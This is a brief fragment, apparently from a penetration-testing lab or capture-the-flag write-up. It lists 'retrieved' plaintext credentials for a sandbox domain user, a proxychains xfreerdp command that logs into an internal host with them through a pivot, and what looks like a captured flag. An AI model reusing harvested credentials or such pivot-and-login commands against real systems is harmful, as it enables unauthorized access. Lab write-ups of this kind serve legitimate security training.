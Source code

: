 **Retreived Credentials**
```
$username = "sandbox\alex"
$pwdTxt = "Ndawc*nRoqkC+haZ"
```


```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```

```
39f03bb56cd0d3272bc87b52ead4eddd
```

